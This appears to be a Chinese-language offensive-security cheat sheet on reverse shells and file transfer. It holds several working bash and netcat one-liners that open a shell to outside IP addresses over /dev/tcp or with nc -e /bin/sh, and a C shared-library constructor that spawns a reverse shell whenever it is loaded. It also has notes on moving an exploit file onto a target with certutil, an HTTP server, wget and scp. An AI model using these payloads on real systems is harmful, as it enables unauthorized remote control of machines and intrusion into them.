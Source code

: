 ## bash 反弹

```
攻击者：nc -lvp 12345

python3 -m http.server 12345
启动http服务

受害者：
bash -i >& /dev/tcp/8.130.20.254/12345 0>&1
bash -i >& /dev/tcp/192.168.1.129/8888 0>&1
nc -e /bin/sh 8.130.20.254 12345
bash -c 'exec bash -i &>/dev/tcp/192.168.1.9/8888 <&1'


nc是netcat的简写，可实现任意TCP/UDP端口的侦听，nc可以作为server以TCP或UDP方式侦听指定端口
-l 监听模式，用于入站连接
-v 详细输出--用两个-v可得到更详细的内容
-p port 本地端口号

bash -i代表在本地打开一个bash
>&后面跟上/dev/tcp/ip/port这个文件代表将标准输出和标准错误输出重定向到这个文件，也就是传递到远程vps
/dev/tcp/是Linux中的一个特殊设备,打开这个文件就相当于发出了一个socket调用，建立一个socket连接
远程vps开启对应的端口去监听，就会接收到这个bash的标准输出和标准错误输出
```

[反弹shell汇总，看我一篇就够了_getshell和反弹shell_lainwith的博客-CSDN博客](https://blog.csdn.net/weixin_44288604/article/details/111740527)



```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/50.x.x.25/1234 0>&1'");
}
```



## 传文件

#### 编码写入

https://www.freebuf.com/articles/system/178515.html

https://github.com/Zzzxbug/NcPutter

在windows上用自带的工具certutil将所需要的文件base64加密

```
certutil -encode originalFile targetFile

certutil -encode exp.so exp_v.txt
```

打开txt文件后，将最后一行和第一行删除，并将所有的`\r\n`给删除掉

#### wget和curl

在vps上启动http服务

```
python3 -m http.server 12345
```

使用wget获取即可





```
从本地上传到远程
scp /home/xx root@10.10.10.10:/home/xx

然后输入对方相应帐号的登录密码即可

从远程上传到本地：
scp root@10.10.10.10:/home/xx /home/xx
```

